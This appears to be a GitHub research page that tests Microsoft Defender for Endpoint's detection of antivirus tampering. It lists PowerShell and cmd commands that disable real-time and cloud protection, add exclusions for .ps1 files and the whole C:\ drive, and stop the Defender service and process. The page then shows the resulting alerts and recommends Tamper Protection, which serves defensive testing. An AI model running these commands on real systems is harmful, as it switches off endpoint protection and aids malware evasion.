 # AV Tampering 
Microsoft Defender for Endpoint does provide AV tampering protection called **Tamper Protection**, preventing attackers from modifying values and disabling detection engines during defense evasion attempts. If Tamper Protection is enabled, AV tampering activities will be blocked. Even if not enabled, AV tampering activities will be detected by Microsoft Defender for Endpoint.

On this page, I would like to showcase **some test methods** and demonstrate **the detection/alerts** capabilities of Microsoft Defender for Endpoint. 

## Red Note (test insights)
**PowerShell, Defender Cmdlet** 
```powershell
# Disable real-time protection
Set-MpPreference -DisableRealtimeMonitoring $true
# Disable cloud-delivered protection
Set-MpPreference -MAPSReporting 0
# Modify exclusions - Extensions & Paths 
Set-MpPreference -ExclusionExtension "ps1" -ExclusionPath "C:\"
```

**PowerShell, creating new registry values**
```powershell
# Disable real-time protection
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name DisableRealtimeMonitoring -Value 1 -PropertyType DWord -Force
# Disable cloud-delivered protection
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" -Name SpynetReporting -Value 0 -PropertyType DWord -Force
# Modify exclusions - Extensions & Paths 
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Extensions" -Name "ps1" -Value 0 -PropertyType String -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths" -Name "C:\" -Value 0 -PropertyType String -Force
```
> [!Important]
> If the specified path doesn't exist, PowerShell returns an error. So, please ensure that the path exists. If it doesn't exist, you can create it.
> e.g. if Exclusions/Extensions path doesn't exist
> ```powershell
> New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions" -Name 'Extensions' -Force -ErrorAction 0
> ```

**PowerShell, stop Defender Service & Process**
```powershell
Stop-Service -Name "WinDefend"
Stop-Process -Name "MsMpEng"
```

**Windows commands, Creating new registry values**
```cmd
rem Disable real-time protection
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
rem Disable cloud-delivered protection
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
rem Modify exclusions - Extensions & Paths 
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Extensions" /v "ps1" /t REG_SZ /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths" /f /v "C:\" /t REG_DWORD /d 0 /reg:64
```

**Windows commands, stop Defender Service, Network Service**
```cmd
sc stop WinDefend
net stop WinDefend
```

## Alerts & Detections
Here are alerts detected by Microsoft Defender for Endpoint and Microsoft Defender Antivirus. 
These alerts originated from the aforementioned PowerShell and CMD.

- [x] Suspicious Microsoft Defender Antivirus exclusion
- [x] Attempt to turn off Microsoft Defender Antivirus protection
- [x] An active 'MpTamperSrvDisableAV' malware was prevented from executing via AMSI
- [x] An active 'MpTamperSrvDisableAV' malware in a command line was prevented from executing
- [x] Microsoft Defender Antivirus protection turned off
- [x] Microsoft Defender Antivirus tampering

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/4cc90ed3-6672-421b-84c0-4b8fb6e6b4f6)

**Detecting potential tampering activity in the Microsoft Defender portal**

When tampering is detected, an alert is raised. Some of the alert titles for tampering are : [Tamper resiliency](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/tamper-resiliency?view=o365-worldwide)
```
- Attempt to bypass Microsoft Defender for Endpoint client protection
- Attempt to stop Microsoft Defender for Endpoint sensor
- Attempt to tamper with Microsoft Defender on multiple devices
- Attempt to turn off Microsoft Defender Antivirus protection
- Defender detection bypass
- Driver-based tampering attempt blocked
- Image file execution options set for tampering purposes
- Microsoft Defender Antivirus protection turned off
- Microsoft Defender Antivirus tampering
- Modification attempt in Microsoft Defender Antivirus exclusion list
- Pending file operations mechanism abused for tampering purposes
- Possible Antimalware Scan Interface (AMSI) tampering
- Possible remote tampering
- Possible sensor tampering in memory
- Potential attempt to tamper with MDE via drivers
- Security software tampering
- Suspicious Microsoft Defender Antivirus exclusion
- Tamper protection bypass
- Tampering activity typical to ransomware attacks
- Tampering with Microsoft Defender for Endpoint sensor communication
- Tampering with Microsoft Defender for Endpoint sensor settings
- Tampering with the Microsoft Defender for Endpoint sensor
```

## Blue Note
- Turn on [Microsoft Defender Antvirus](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/next-generation-protection?view=o365-worldwide) (Including Real-Time Protection, Cloud Protection, Sample Submission and so on)
- Turn on [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc)

## Reference
- [Current limits of Defender AV Tamper Protection](https://cloudbrothers.info/current-limits-defender-av-tamper-protection/)
- [Make sure Tamper Protection is turned on](https://techcommunity.microsoft.com/t5/microsoft-defender-for-endpoint/make-sure-tamper-protection-is-turned-on/ba-p/2695568)
- [When coin miners evolve, Part 1: Exposing LemonDuck and LemonCat, modern mining malware infrastructure](https://www.microsoft.com/en-us/security/blog/2021/07/22/when-coin-miners-evolve-part-1-exposing-lemonduck-and-lemoncat-modern-mining-malware-infrastructure/)
- [When coin miners evolve, Part 2: Hunting down LemonDuck and LemonCat attacks](https://www.microsoft.com/en-us/security/blog/2021/07/29/when-coin-miners-evolve-part-2-hunting-down-lemonduck-and-lemoncat-attacks/)


#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
